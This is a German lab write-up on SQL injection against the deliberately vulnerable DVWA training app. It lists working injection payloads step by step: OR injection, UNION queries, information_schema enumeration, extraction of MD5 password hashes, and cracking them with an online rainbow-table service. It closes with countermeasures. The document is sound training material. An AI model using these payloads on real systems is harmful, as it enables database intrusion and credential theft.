

# SQL Injection — Burp Suite & manuell

**Ziel:** Datenbank über unsanitized Input ausspähen und Passwort-Hashes extrahieren  
**Security Level:** Low  
**Tool:** Browser direkt (kein Burp nötig)  
**Plattform:** DVWA auf Kali-Pi (`<kali-pi-ip/dvwa`)

---

## Grundprinzip

Die App baut die SQL-Query direkt mit dem User-Input zusammen:

```sql
SELECT * FROM users WHERE id = '$input'
```

Kein Sanitizing → eigene SQL-Befehle einschleusbar.

---

## Schritt-für-Schritt

### 1. Normale Funktion testen

Eingabe: `1`

```
First name: admin
Surname: admin
```

→ App funktioniert. Jetzt die Query brechen.

---

### 2. Alle User ausgeben — OR Injection

Eingabe:
```
' OR '1'='1
```

Ergibt in der DB:
```sql
SELECT * FROM users WHERE id = '' OR '1'='1'
```

`'1'='1'` ist immer wahr → alle User werden zurückgegeben.

> **Warum nur ein `'` am Anfang?**  
> Das `'` der Query selbst schließt den String. Ein zweites `'` würde drei Anführungszeichen erzeugen → Syntax Error.

---

### 3. Datenbank identifizieren — UNION Injection

Eingabe:
```
' UNION SELECT user(),database()#
```

```
First name: dvwa@localhost
Surname: dvwa
```

- `user()` → DB-Benutzer mit dem DVWA läuft
- `database()` → Name der aktiven Datenbank
- `#` → Kommentar, schneidet den Rest der originalen Query ab (zuverlässiger als `--` auf MySQL/MariaDB)

> **Warum UNION?**  
> `UNION` hängt ein zweites SELECT an das erste. Spaltenanzahl muss übereinstimmen — DVWA erwartet 2 Spalten → `SELECT x,y`.

---

### 4. Tabellen auslesen

Eingabe:
```
' UNION SELECT group_concat(table_name),2 FROM information_schema.tables WHERE table_schema='dvwa'#
```

```
First name: guestbook,users
```

- `information_schema` ist eine **standardisierte Systemdatenbank** in MySQL/MariaDB — immer vorhanden, kein Raten
- `group_concat()` packt alle Ergebnisse in eine Zeile

---

### 5. Spalten der Tabelle `users` auslesen

Eingabe:
```
' UNION SELECT group_concat(column_name),2 FROM information_schema.columns WHERE table_name='users'#
```

```
First name: USER,PASSWORD_ERRORS,...,user_id,first_name,last_name,user,password,avatar,...
```

→ Spalten `user` und `password` gefunden.

---

### 6. Passwort-Hashes extrahieren

Eingabe:
```
' UNION SELECT user,password FROM users#
```

| User | Hash |
|------|------|
| admin | `5f4dcc3b5aa765d61d8327deb882cf99` |
| gordonb | `e99a18c428cb38d5f260853678922e03` |
| 1337 | `8d3533d75ae2c3966d7e0d4fcc69216b` |
| pablo | `0d107d09f5bbe40cade3de5c71e9e9b7` |
| smithy | `5f4dcc3b5aa765d61d8327deb882cf99` |

---

### 7. Hashes knacken — CrackStation

Alle Hashes in [crackstation.net](https://crackstation.net) eingeben → MD5 Rainbow Tables knacken die in Sekunden.



| User | Hash | Passwort |
|------|------|----------|
| admin | `5f4dcc3b5aa765d61d8327deb882cf99` | password |
| gordonb | `e99a18c428cb38d5f260853678922e03` | abc123 |
| 1337 | `8d3533d75ae2c3966d7e0d4fcc69216b` | charley |
| pablo | `0d107d09f5bbe40cade3de5c71e9e9b7` | letmein |
| smithy | `5f4dcc3b5aa765d61d8327deb882cf99` | password |

---

## Erkenntnisse

- MD5 ist **keine sichere Passwort-Hashing-Methode** — Rainbow Tables knacken bekannte Passwörter sofort
- Gegenmaßnahme SQLi: **Prepared Statements** — User-Input wird nie Teil der Query-Struktur
- Gegenmaßnahme Hashing: **bcrypt / Argon2** mit Salt — Rainbow Tables wirkungslos
- `information_schema` ist kein Glück — systematisches Vorgehen, genau wie sqlmap es automatisiert
